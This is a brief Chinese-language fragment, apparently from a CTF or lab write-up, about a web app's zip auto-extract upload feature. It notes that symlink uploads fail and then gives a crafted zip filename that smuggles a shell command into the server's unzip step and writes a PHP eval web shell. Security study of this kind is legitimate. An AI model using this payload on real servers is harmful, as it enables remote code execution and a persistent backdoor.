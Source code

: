 ![image-20230503130845069](../.gitbook/assets/image-20230503130845069.png)

新增了⼀个上传zip的⾃解压功能（`cloud manager with auto unzip `）

不能上传软链接laravel⽆法解析

将文件名改成`;echo '<?php eval($_POST[1]);' > 1.php;.zip`

![image-20230503131925051](../.gitbook/assets/image-20230503131925051.png)
